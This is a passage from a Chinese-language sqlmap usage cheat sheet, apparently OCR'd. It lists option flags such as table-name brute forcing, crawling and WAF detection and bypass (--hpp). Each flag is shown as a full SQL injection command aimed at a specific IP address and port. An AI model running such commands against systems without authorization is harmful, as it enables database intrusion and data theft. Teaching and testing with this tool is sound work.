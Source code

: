 1. ##### —common-tables ： 暴力破解表

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —common-tables**

## 十.其他参数

1. ##### —batch ： 自动选是

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —batch**

1. ##### —charset：强制字符编码

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —charset=GBK**

1. ##### —crawl：爬站深度

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —crawl=3**

1. ##### —csv-del：指定csv文件的分隔符

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —csv-del=”;”**

1. ##### —flush-session ： 清空session

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —flush-session**

1. ##### —force-ssl ： 强制使用HTTPS

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —force-ssl**

1. ##### —fresh-queries ： 重新检测，不使用本地已查询的数据

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —fresh-queries**

1. ##### —hex ： 以16进制的形式编码dump出来的数据

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hex**

1. ##### —parse-errors ： 分析和显示数据库内建报错信息

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —parse-errors**

1. ##### —answer ： 回答

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —answer=”extending=N”**

1. ##### —check-waf ： 检测WAF/IPS/IDS

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —check-waf**

1. ##### —hpp ： 绕过WAF/IPS/IDS

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —hpp**

1. ##### —identify-waf ： 彻底检测WAF/IPS/IDS

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —identify-waf**

1. ##### —mobile ： 模拟智能手机设备

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —mobile**

1. ##### —purge-output ： 清除output文件夹
